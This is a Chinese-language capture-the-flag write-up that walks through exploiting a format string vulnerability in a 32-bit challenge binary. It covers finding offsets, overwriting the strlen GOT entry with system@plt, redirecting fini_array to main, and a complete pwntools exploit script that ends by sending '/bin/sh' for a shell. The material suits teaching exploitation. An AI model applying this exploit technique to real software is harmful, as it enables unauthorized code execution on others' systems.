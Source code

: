
这部分弄明白后看程序代码
![image](https://img2024.cnblogs.com/blog/3092507/202408/3092507-20240804002221943-1278150708.png)

一个很明显的格式化字符串漏洞
结合checksec
![image](https://img2024.cnblogs.com/blog/3092507/202408/3092507-20240804002253201-879922239.png)
无PIE，无FULL RELRO
可以改got表

可以选择将`getnline`函数内的`strlen`的got改为system@plt。
但还需要再次执行，可以选择劫持`fini_array`为main的地址。

然后运行程序，测试看偏移：
![image](https://img2024.cnblogs.com/blog/3092507/202408/3092507-20240804003154231-514012233.png)

可以看到这里的偏移不是整的，是有2Byte的偏移。

找fini_array的方法：
```
readelf -S ./pwn | grep fini_array
```

查看原来fini_array的值，和main地址很近，只用覆盖低2Byte
![image](https://img2024.cnblogs.com/blog/3092507/202408/3092507-20240804003638324-1930801733.png)


### 任意地址写
用%n写4B的话可能会出错，所以最好用`%num$hn`，2B来覆盖（4位）
然后注意最开始的小偏移，从小到大覆盖。
手写：（记得发sla。。。）
Exp:
```py
system_plt = 0x08048490
strlen_got = 0x08049a54
fini_array = 0x08049934
main_addr  = 0x080485ed

sys_h      = 0x0804
sys_l      = 0x8490
main_l       = 0x85ed

pl = b"a"*2 # offset: 11
pl += p32(strlen_got) # low 2B offset: 12
pl += p32(strlen_got+2) # high 2B offset: 13
pl += p32(fini_array) # low 2B offset: 14
# before we have 0x20 already
num = sys_h - 0x20
pl += ("%" + str(num) + "c%13$hn").encode() # high 2B

num = sys_l - sys_h
pl += ("%" + str(num) + "c%12$hn").encode() # low 2B

num = main_l - sys_l
pl += ("%" + str(num) + "c%14$hn").encode()

print(len(pl))
sla("... ",pl)

sla("... ",b'/bin/sh\x00')

p.interactive()
```

---